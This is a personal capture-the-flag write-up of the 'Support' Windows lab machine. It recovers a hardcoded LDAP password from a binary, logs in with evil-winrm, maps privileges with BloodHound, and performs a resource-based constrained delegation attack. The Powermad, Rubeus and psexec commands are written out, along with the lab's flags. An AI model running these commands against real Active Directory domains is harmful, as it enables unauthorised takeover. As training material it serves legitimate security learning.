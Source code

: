 
# About Support

Support is an Easy difficulty Windows machine that features an SMB share that allows anonymous authentication. After connecting to the share, an executable file is discovered that is used to query the machine&amp;amp;amp;amp;#039;s LDAP server for available users. Through reverse engineering, network analysis or emulation, the password that the binary uses to bind the LDAP server is identified and can be used to make further LDAP queries. A user called `support` is identified in the users list, and the `info` field is found to contain his password, thus allowing for a WinRM connection to the machine. Once on the machine, domain information can be gathered through `SharpHound`, and `BloodHound` reveals that the `Shared Support Accounts` group that the `support` user is a member of, has `GenericAll` privileges on the Domain Controller. A Resource Based Constrained Delegation attack is performed, and a shell as `NT Authority\System` is received.

___

### Q1: How many shares is Support showing on SMB?

#### A: 6

With nmap -sV -sC -Pn {ip}, i got this.

![](../../Img/Pasted%20image%2020250430141803.png)

We see that port 445 (smb) it's there. So we tried to connect to it. smbclient -L \\\\10.10.11.174\\

![](../../Img/Pasted%20image%2020250430142451.png)

___

### Q2: Which share is not a default share for a Windows domain controller?

#### A: support-tools

The support share doesn't seem like standar with smb.

![](../../Img/Pasted%20image%2020250430142412.png)

___

### Q3: Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file?

#### A: UserInfo.exe.zip

All of the tools look familiar, except for UserInfo.

___

### Q4: What is the hardcoded password used for LDAP in the UserInfo.exe binary?

#### A: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

This is what was inside the .zip

![](../../Img/Pasted%20image%2020250430142830.png)

UserInfo is again here. But it can't be opened because it is a .exe. S we have to decompile it.
Got this out of first result google.

![](../../Img/Pasted%20image%2020250430143533.png)

The linux version took me here (https://github.com/icsharpcode/AvaloniaILSpy)
After intalling it and opening the file i searched around until i found something interesting.

It connects there.

![](../../Img/Pasted%20image%2020250430150602.png)

Looking a little bit more i found this.

![](../../Img/Pasted%20image%2020250430150800.png)

I thought that this was the password, but i have to decrypt it.
I had to google a lot, and look at the hint, but i finally got it.

___

### Q5: Which field in the LDAP data for the user named support stands out as potentially holding a password?

#### A: info

Having decoded the password, i connected to LDAP with Apache Directory. Navigating to the support related entries i found this.

![](../../Img/Pasted%20image%2020250430152540.png)

___

### Q6: What open port on Support allows a user in the Remote Management Users group to run PowerShell commands and get an interactive shell?

#### A: 5985

I had to run the nmap scan again, to check all ports (-p-)

![](../../Img/Pasted%20image%2020250430154940.png)

___

### Q7: Submit the flag located on the support user's desktop.

#### A: 4064b30c7a2919feb2e06a32f0810c28

Googling what that port is for, and then using evil-winrm i logged in and in /Desktop i found the flag.

![](../../Img/Pasted%20image%2020250430153159.png)

___

Q8: Bloodhound data will show that the support user has what privilege on the DC.SUPPORT.HTB object?

A: GenericAll

I had to install Blodhound, the db (neo4j), get the Sharphound.exe to upload to the machine with the evil-winrm connection.
I ran the .exe and after that downloaded the .zip with the results.
And that i uploaded into Blood hound.

![](../../Img/Pasted%20image%2020250430155226.png)

![](../../Img/Pasted%20image%2020250430155344.png)

![](../../Img/Pasted%20image%2020250430155500.png)

Finally.

![](../../Img/Pasted%20image%2020250430155748.png)

Q9: A common attack with generic all on a computer object is to add a fake computer to the domain. What attribute on the domain sets how many computer accounts a user is allowed to create in the domain?

A: ms-ds-machineaccountquota

Google it.

![](../../Img/Pasted%20image%2020250430160121.png)

Q10: Following the steps for the Computer Takeover attack, eventually I get a ticket for the administrator, which Rubeus says should give administrator access in that session, but it doesn't work. What is the name of the script from Impacket that can convert that ticket to ccache format?

A: ticketConverter.py

Google again.

![](../../Img/Pasted%20image%2020250430162918.png)


Q11: What is the name of the environment variable on our local system that we'll set to that ccache file to allow use of files like psexec.py with the -k and -no-pass options?

A: KRB5CCNAME

I tried in the documentation (https://ccache.dev/documentation.html), but nothing turned up.
This page helped me (https://www.tarlogic.com/blog/how-to-attack-kerberos/).

![](../../Img/Pasted%20image%2020250430163654.png)


Q12: Submit the flag located on the administrator's desktop.

A: f72a60bd6c0e42da0badd8912b664933

So, i uploaded to the machine Powermad and rubeus.
With Powermad i created the new machine New-MachineAccount -MachineAccount compu -Password $(ConvertTo-SecureString 'contra123' -AsPlainText -Force)

![](../../Img/Pasted%20image%2020250430162245.png)

As for the attack we use (Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount compu). to set the attribute.
I use Rubeus to hash the password for the new machine (\Rubeus.exe hash /password:contra123 /user:compu$ /domain:support.htb).

![](../../Img/Pasted%20image%2020250430162721.png)

With thi rubeus command i got the ticket. (./rubeus.exe s4u /user:compu$ /rc4:E71B1ABD104A45393C428D263A82B1F2 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt)

![](../../Img/Pasted%20image%2020250430170015.png)

With ticketConverter.py i make the ticket.
And for the shell i use psexec.py. After a lot of trying because i have to use "python3" to run the script this is the command that i use (KRB5CCNAME=ticket.ccache python3 psexec.py support.htb/administrator@dc.support.htb -k -no-pass)

![](../../Img/Pasted%20image%2020250430171255.png)

![](../../Img/Pasted%20image%2020250430171550.png)

Tags: [Evil-Winrm](../../Index/Evil-Winrm.md) [LDAP](../../Index/LDAP.md) [Nmap](../../Index/Nmap.md) [Reverse Engineering](../../Index/Reverse%20Engineering.md) [SMB](../../Index/SMB.md)
